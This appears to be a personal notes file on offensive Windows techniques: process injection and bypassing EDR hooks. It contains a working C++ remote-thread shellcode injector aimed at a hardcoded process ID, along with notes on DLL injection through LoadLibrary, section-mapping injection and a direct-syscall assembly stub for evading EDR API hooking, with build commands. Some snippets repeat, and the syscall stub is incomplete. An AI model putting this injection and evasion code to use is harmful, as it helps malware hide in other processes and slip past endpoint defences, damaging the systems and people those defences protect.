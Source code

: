 # Windows 
### Injection and Hijacking

### EDR
Sensor - > Userland ( collects telemetry and monitors behavior)
Driver -> Kernel ( monitor low-level operations)
Backend -> Online Infra (Where all received telementry is sent to for processing, logging and analysis)

### Win APi Functions

```cpp
OpenProcess ()

VirtualAllocEx ()

WriteProcessMemory()

CreateRemoteThread()
```

### Inject thread 


```cpp
#include <windows.h>
#include <processthreadsapi.h>

int main() {

    HANDLE hProcess, hThread;
    LPVOID start_ptr;
    DWORD tid;
    size_t written;

    char shellcode[] = {

    };
    start_ptr = (LPVOID) 0x13370000;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2676);

    start_ptr = VirtualAllocEx(hProcess, start_ptr, 0x1000,  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, start_ptr, shellcode, 256, &written);

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)start_ptr, NULL, 0, &tid);

}

```


### without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```cpp
    execMem = VirtualAlloc(NULL, sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(execMem, code, sizeof(code));
    f = (Func)execMem;
    f(&hPipe);
```

without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```
typedef NTSTATUS (NTAPI *NtCreateFile_t)(
    PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK,
    PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG
);
GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
```




```
avoiding virtual alloc 

Instead of allocating memory directly in a remote process using VirtualAllocEx, you:

- Create a memory section (like a shared memory region).

- Map that section into both your process and the target process.

- Write your payload into your local mapping.

- The payload now exists in the remote process too — because both share the same memory section.

This approach uses native NT APIs:

NtCreateSection

NtMapViewOfSection

```


## Bypassing EDR API Hooking 

### inject inline asm with naked function

    Note: When preparing for system call, windows move rcx (first arg) into r10 as rcx will be use to store the return address and r10 now represent the first argument . rax still stores the system call number

```asm
; syscall.asm

.code
public MyNakedFunction

MyNakedFunction proc
    mov r10, rcx        ; Windows x64 ABI requires syscall target in R10
    mov eax, 0c4h       ; 
    ret
MyNakedFunction endp

end
```
assemble

```
ml64 /c /Fo syscall.obj syscall.asm 
```

then in your cpp
```cpp
extern "C" int MyNakedFunction(HANDLE *); 
```

compile with 
```
cl /O2 windows.cpp syscall.obj
```
